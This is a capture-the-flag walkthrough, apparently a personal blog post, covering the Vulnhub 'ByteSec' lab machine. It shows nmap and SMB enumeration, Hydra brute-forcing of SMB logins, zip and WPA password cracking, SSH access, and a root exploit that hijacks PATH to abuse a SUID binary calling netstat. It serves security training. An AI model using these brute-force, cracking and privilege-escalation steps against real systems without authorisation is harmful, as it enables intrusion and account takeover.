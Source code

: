 ```yaml
---
layout: default
title : muzec - Haknos Os-ByteSec Writeup
---
```



### Scanning With Nmap

We always start with an nmap scan.....

```Nmap -sC -sV -p- -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Thu Sep 30 15:13:12 2021 as: nmap -sC -sV -p- -oA nmap 172.16.139.234
Nmap scan report for 172.16.139.234
Host is up (0.0020s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2525/tcp open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:55:4f:1e:e9:7e:ea:87:69:90:1c:1f:b0:63:3f:f3 (RSA)
|   256 a6:70:f1:0e:df:4e:73:7d:71:42:d6:44:f1:2f:24:d2 (ECDSA)
|_  256 f0:f8:fd:24:65:07:34:c2:d4:9a:1f:c0:b8:2e:d8:3a (ED25519)
Service Info: Host: NITIN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h09m48s, deviation: 3h10m31s, median: 2h59m48s
|_nbstat: NetBIOS name: NITIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: nitin
|   NetBIOS computer name: NITIN\x00
|   Domain name: 168.1.7
|   FQDN: nitin.168.1.7
|_  System time: 2021-09-30T22:43:15+05:30
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-30T17:13:15
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 30 15:13:26 2021 -- 1 IP address (1 host up) scanned in 14.68 seconds
```

We have our scan result and we have SMB open let check it.


### SMBCLIENT

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/bytesec]
└─$ smbclient -L  //172.16.139.234/ -N    

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (nitin server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```
But we have no share that we can access let run `enum4linux` on the target.


### Enum4linux


```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\sagar (Local User)
S-1-22-1-1001 Unix User\blackjax (Local User)
S-1-22-1-1002 Unix User\smb (Local User)

```

Found some users so i try to use it on SMB brute forcing SMB with hydra.

### HYDRA

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/bytesec]
└─$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 172.16.139.234 smb   
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-30 15:20:10
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 43033197 login tries (l:3/p:14344399), ~43033197 tries per task
[DATA] attacking smb://172.16.139.234:445/
[445][smb] host: 172.16.139.234   login: smb
[445][smb] Host: 172.16.139.234 Account: sagar Error: Invalid account (Anonymous success)
[445][smb] Host: 172.16.139.234 Account: blackjax Error: Invalid account (Anonymous success)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-30 15:21:01
```

We have smb credentials with no password now let try accessing it using `smb` with both username and share.

![image](https://user-images.githubusercontent.com/69868171/135502052-1f6d33be-dcf4-492e-b0da-5f975b44d268.png)

Now all files on my machine let check it out the first file `main.txt` .

![image](https://user-images.githubusercontent.com/69868171/135502839-6be55b4a-f497-45b7-9c4e-cac0eb3b6dd9.png)

Now `safe.zip` let try unzipping it.

![image](https://user-images.githubusercontent.com/69868171/135503325-28bc2f72-c727-4085-bc40-bf9ee82f4fee.png)

But seems we need a password now let try cracking it using `john the ripper` .

![image](https://user-images.githubusercontent.com/69868171/135503578-ca795880-efbc-41eb-a447-ffbebd61fa26.png)


Zip file cracked now let unzip the file with the password we just got from the zip file we cracked.

![image](https://user-images.githubusercontent.com/69868171/135503954-59869eeb-722c-4018-82f0-42a112fd5b79.png)

Seems we have a jpg file and a cap file probably a wireless capture file we can confirm it using wireshark.

![image](https://user-images.githubusercontent.com/69868171/135504491-77d30bb4-e7e2-4831-9fbb-1be8b8b08b13.png)

### AIRCRACK-NG

![image](https://user-images.githubusercontent.com/69868171/135504713-fc677a27-9834-4419-bf99-3d14843f80bb.png)

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/bytesec]
└─$ aircrack-ng -w /usr/share/wordlists/rockyou.txt user.cap 
```

Cap file cracked but it a password for what i try using it on the jpg image but i got nothing so i go back to the cap file again with wireshark.

![image](https://user-images.githubusercontent.com/69868171/135505098-27a535bf-15a4-40aa-b3d0-c3947dec75e9.png)

Interesting user `blackjax` now let try using it on SSH.


![image](https://user-images.githubusercontent.com/69868171/135505288-a8171394-26eb-4cfc-b7af-1394170c240e.png)

Boom we are in and we have user.txt.

![image](https://user-images.githubusercontent.com/69868171/135505471-0209f725-3f42-4fc8-97f4-2389ee20c598.png)

`sudo -l` seems the user blackjax can not run sudo now let check for SUID.


### Privilege Escalation

![image](https://user-images.githubusercontent.com/69868171/135505958-11fb2d21-fdca-41ac-aa60-1e53ebdf5b48.png)

```
find / -perm -u=s -type f 2>/dev/null
```
The strange SUID is `/usr/bin/netscan` interesting right now let check what it does.

![image](https://user-images.githubusercontent.com/69868171/135506111-51289050-e8a6-4576-9b76-562a5795d7cb.png)

Cool a `netstat` command let string it to confirm.

![image](https://user-images.githubusercontent.com/69868171/135506317-0e6fc5e4-fe92-4970-a584-689a26406c66.png)


Seems it possible we can escalate to root using Path variable let give it a shot.


![image](https://user-images.githubusercontent.com/69868171/135507147-7a23b417-037b-4df6-9a1f-c3bfbfc0cbad.png)


```
$ cd /tmp
$ echo "/bin/bash" > netstat
$ chmod 777 netstat
$ export PATH=/tmp:$PATH           
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ /usr/bin/netscan
root@nitin:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(blackjax)
root@nitin:/tmp# cd /root
root@nitin:/root# ls
root.txt
root@nitin:/root# 
```

We are root and done.


![image](https://user-images.githubusercontent.com/69868171/135507295-ed35505b-842a-4255-9ea9-538e5cb8e29f.png)


Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
